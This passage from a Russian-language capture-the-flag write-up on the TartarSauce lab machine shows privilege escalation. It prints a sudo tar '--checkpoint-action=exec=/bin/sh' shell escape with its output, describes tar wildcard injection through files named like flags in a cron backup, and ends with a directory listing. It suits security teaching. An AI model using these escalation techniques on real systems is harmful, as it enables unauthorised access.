 ```text
$ cat /home/onuma/user.txt
b2d6ec45????????????????????????
```

## tar --checkpoint-action
Флаг `--checkpoint=NUM` позволяет выполнять действие после каждых обработанных `NUM` байт. Действие по умолчанию — вывод сообщения о прогрессе, **но** действие можно изменять опцией `--checkpoint-action` :smiling_imp:

Дальше все очевидно: попросим tar отдать нам шелл после процессинга 1-го байта *пустоты ~~и безысходности~~*:
```text
www-data@TartarSauce:/var/www$ sudo -u onuma /bin/tar -Pcf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
$ whoami
onuma

$ id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
```

```text
$ cat /home/onuma/user.txt
b2d6ec45????????????????????????
```

Интересный хак: если бы мы не могли самостоятельно сконструировать команду для tar (в случае, если бы он запускался по cron-задаче, например) **и** пользователь имел неосторожность поставить asterisks (\*) в целевой директории для архивирования (к примеру, так: `tar -zcf /var/backups/home.tgz /home/*`), то мы все равно могли бы провести эксплуатацию, создав файлы с названиями, идентичными названию нужных флагов и их значений. Такие файлы были бы обработаны tar'ом как аргументы командной строки. Подробнее об этом можно почитать [здесь](https://pen-testing.sans.org/resources/papers/gcih/attack-defend-linux-privilege-escalation-techniques-2016-152744 "Attack and Defend: Linux Privilege Escalation Techniques of 2016 - attack-defend-linux-privilege-escalation-techniques-2016-152744") (*начало на стр. 8, Figure 4 – Example Cron Job*).

# PrivEsc: onuma → root
Выберем один из способов выше для PWN'а пользователя *onuma*, заспауним красивый шелл от его имени и пойдем дальше.

В домашней директории ничего привлекательного:
```text
onuma@TartarSauce:~$ ls -la
total 40
drwxrw---- 5 onuma onuma 4096 Feb 21  2018 .
drwxr-xr-x 3 root  root  4096 Feb  9  2018 ..
lrwxrwxrwx 1 root  root     9 Feb 17  2018 .bash_history -> /dev/null
-rwxrw---- 1 onuma onuma  220 Feb  9  2018 .bash_logout
-rwxrw---- 1 onuma onuma 3871 Feb 15  2018 .bashrc
drwxrw---- 2 onuma onuma 4096 Feb  9  2018 .cache
-rwxrw---- 1 onuma onuma   52 Feb 17  2018 .mysql_history
drwxrw---- 2 onuma onuma 4096 Feb 17  2018 .nano
-rwxrw---- 1 onuma onuma  655 Feb  9  2018 .profile
drwxrw---- 2 onuma onuma 4096 Feb 15  2018 .ssh
-rwxrw---- 1 onuma onuma    0 Feb  9  2018 .sudo_as_admin_successful
lrwxrwxrwx 1 root  root     9 Feb 17  2018 shadow_bkp -> /dev/null
-r-------- 1 onuma onuma   33 Feb  9  2018 user.txt
```
